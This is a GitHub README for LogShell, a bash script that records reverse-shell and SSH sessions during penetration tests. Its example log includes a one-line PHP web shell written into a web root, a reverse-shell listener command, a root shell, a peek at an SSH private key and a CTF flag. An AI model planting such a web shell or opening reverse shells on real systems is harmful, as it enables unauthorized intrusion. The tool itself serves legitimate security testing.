 <div align="center">
  <h1>🪵 LogShell 🐚</h1>
  <br/>
</div>

LogShell is bash script for logging network sessions established via netcat or SSH, such as reverse shells.

It ensures you always have a track of every command ran on a target to look back later.

## Features

- Records shell sessions with timestamped logging.
- Support for Ncat and SSH.
- Preserves color information of the recorded shell output.
- Handles backspaces in user input for clean output.
- Supports automatic detection and logging of session initiation.
- Seamless chains with other tools such as proxychains and rlwrap.
- Easy setup and usage.

## Usage

1. Clone the repository:
```bash
git clone https://github.com/BrunoRochaDev/LogShell.git
```

2. Navigate to the cloned directory:
```bash
cd LogShell
```

3. Make the script executable:
```bash
chmod +x logshell
```

4. (Optional) Move the script to a directory within your $PATH for easier access:
```bash
mv ./logshell /usr/bin
```

5. Run the script with your SSH / netcat command:
```bash
# Initiating SSH session logging
logshell ssh user@127.0.0.1

# Recording a reverse shell with Ncat and rlwrap
logshell rlwrap ncat -lnvp 1337
```

6. View the logs in /tmp/\<target\>.log (log location can be customized within the script):
```
┌──(user㉿kali)-[~]
└─$ cat /tmp/127.0.0.1.log
=============================================================
Shell session via SSH initiated at: 2024-05-30 19:48:41
=============================================================
(19:48:47) $ whoami
(19:48:47) user
(19:49:20) $ ip a
(19:49:20) eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
(19:49:20)         inet 192.168.1.10  netmask 255.255.255.0  broadcast 192.168.1.255
(19:49:20)         inet6 fe80::f816:3eff:fe21:57cf  prefixlen 64  scopeid 0x20<link>
(19:49:20)         ether f8:16:3e:21:57:cf  txqueuelen 1000  (Ethernet)
(19:49:20)         RX packets 150234  bytes 20345763 (19.4 MiB)
(19:49:20)         RX errors 0  dropped 0  overruns 0  frame 0
(19:49:20)         TX packets 134567  bytes 18320456 (17.4 MiB)
(19:49:20)         TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
(19:49:50) $ echo '<?=`$_GET[1]`?>' > /var/www/html/web-shell.php
(19:51:03) exit
=============================================================
Shell session via Ncat initiated at: 2024-05-30 19:53:50
=============================================================
(19:54:01) # id
(19:54:01) uid=0(root) gid=0(root) groups=0(root)
(19:56:45) # ls -la .ssh/id_rsa
(19:56:45) -rw-------. 1 root root 0 Nov 20  2023 .ssh/id_rsa
(19:57:44) # cat flag.txt
(19:57:44) FLAG{y0u_607_m3!}
```

## Future Work

- **Expand Compatibility:** Support additional clients and listeners like `socat` and `nc`.

- **Improve Command/Output Differentiation:** Enhance clarity between user input and listener output for better log readability.

- **Enhance TTY Formatting:** Implement better formatting to handle full TTY without artifacts.

## License
This project is licensed under the AGPLv3 License - see the [LICENSE](https://github.com/BrunoRochaDev/LogShell/blob/main/LICENSE) file for details.
